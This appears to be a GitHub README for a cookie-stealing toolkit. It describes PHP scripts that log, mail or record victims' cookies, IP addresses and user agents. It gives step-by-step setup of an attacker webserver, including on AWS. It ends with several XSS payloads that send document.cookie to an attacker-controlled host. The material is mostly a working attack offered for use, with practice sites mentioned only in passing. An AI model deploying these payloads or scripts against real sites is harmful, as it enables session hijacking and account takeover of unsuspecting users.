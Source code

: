 # hacksudo-cookies-stealer
<h2> 1 method </h2>
here we created PHP Cookie Stealing Scripts which use in XSS/stored/relfect

1. **Cookiesteal-simple.php** - Records whatever "c" parameter holds, in example case the **document.cookie string,** writes value to **log.txt.** 

2. **Cookiemail.php** - This version code will mail the cookies to hacker mail using the PHP() mail function with subject “Stolen cookies”.

3. Cookiesteal-v.php (**verbose**) - **Collects the IP address, port numbe**r, **host**(usually computer-name), user agent and cookie.

## How To Usage
**you can use PHP server**
<h3>php -S attackerIP:80</h3> ( user attacker ip , and port you can use 8080 also ,
but remeber your apache2 must  stop now )
do this command at same path where you took your cookies script done your ready now ...
now find XSS site , for practice purpose you can use Beebox .<br>which is available at www.root-me.org , get XSS and use XSS paylaod which is given below of this README

enjoy :D 
www.hacksudo.com/contact

<br>vishal@hacksudo.com

<h2>2 method </h2>
1. On the remote attacker machine, start the webserver (Apache2 in example),
```
sudo service apache2 start
```
2. Git clone the repo locally and then push the chosen "Cookie stealer" PHP script from local host to the attacking machine

```
git clone https://github.com/hacksudo/hacksudo-cookies-stealer

cd hacksudo-cookies-stealer

sudo scp cookiestealer-simple.php username@AttackMachine:/var/www/html/

sudo scp log.txt username@AttackMachine:/var/www/html/
```
**AWS Version**:

```
scp -i AWS-Key.pem cookiesteal-simple.php ec2-user@ec2[YOUR IP].us-east-2.compute.amazonaws.com:~/.

sudo mv cookiestealer-simple.php /var/www/html/
```

Example: http://[Attacker Webserver]/cookiesteal-simple.php

##### Setting Permissions:

Figure out which user is owning httpd process using the following command:
```
ps aux | grep httpd
```
Output should be similar to this:
```
ec2-user  1569  0.0  0.1  12840  1064 pts/0    S+   17:55   0:00 grep httpd
```
So now you know the user who is trying to write files, which is in this case ec2-user You can now go ahead and set the permission for directory where your php script is trying to write something:
```
sudo chown ec2-user:ec2-user /var/www/html/

sudo chmod 755 /var/www/html/
```

_XSS Payload Examples_:
* <script javascript:text>document.location="http://[Attacker Webserver]cookiesteal-simple.php?c=" + document.cookie + "&t=Alert"; </script>

* <script>document.location='http://[Attacker Webserver]/cookiesteal-v.php?cookie=' + document.cookie</script>

* <img src=x onerror=this.src='http://[Attacker Webserver]/cookiesteal-v.php?cookie='+document.cookie>
